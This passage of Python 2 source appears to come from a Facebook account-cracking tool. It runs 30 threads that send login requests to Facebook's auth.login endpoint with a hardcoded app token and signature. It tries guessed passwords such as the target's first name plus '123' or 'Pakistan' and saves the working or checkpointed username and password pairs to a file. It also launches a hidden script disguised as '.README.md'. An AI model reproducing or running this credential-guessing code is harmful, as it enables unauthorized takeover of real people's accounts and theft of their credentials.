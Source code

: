 							cpb.append(user+pass2)
						else:
							pass3 = kn + '123'
							data = requests.get('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=' + user + '&locale=en_US&password=' + pass3 + '&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')
							q = json.loads(data.text)
							if '407' in q['error_msg']:
								print '\x1b[1;92m[Add--Email]\x1b[0m ' + user + ' | ' + pass3
								oks.append(user+pass3)
							else:
								if '405' in q["error_msg"]:
									print '[Checkpoint] ' + user + ' | ' + pass3
									cps = open("save/checkpoint.txt", "a")
									cps.write(user+"|"+pass3+"\n")
									cps.close()
									cpb.append(user+pass3)
								else:
									pass4 = 'Pakistan'
									data = requests.get('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=' + user + '&locale=en_US&password=' + pass4 + '&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')
									q = json.loads(data.text)
									if '407' in q['error_msg']:
										print '\x1b[1;92m[Add--Email]\x1b[0m ' + user + ' | ' + pass4
										oks.append(user+pass4)
									else:
										if '405' in q["error_msg"]:
											print '[Checkpoint] ' + user + ' | ' + pass4
											cps = open("save/checkpoint.txt", "a")
											cps.write(user+"|"+pass4+"\n")
											cps.close()
											cpb.append(user+pass4)
																	
															
		except:
			pass
		
	p = ThreadPool(30)
	p.map(main, id)
	print 50*"-"
	print '[✓] Process Has Been Completed ....'
	print "[✓] Total OK/CP : "+str(len(oks))+"/"+str(len(cpb))
	print("[✓] CP File Has Been Saved : checkpoint.txt")
	raw_input("\n[Press Enter To Go Back]")
	os.system('python2 .README.md')
		
		
def crack_action2():
	bch = ""
	if bch =="":
		os.system('clear')
		print logo
		try:
			idlist = (".txt")
			kn=raw_input(" First Name : ")
			k=raw_input(" Username WIthout Digits : ")
			ac=raw_input(" Mail Domain : ")
			for line in open(idlist,'r').readlines():
				id.append(line.strip())
		except IOError:
			print '[!] Error 404, please try again'
			raw_input('\n[ Press Enter To Go Back ]')
			menu()
	elif bch =="0":
		menu()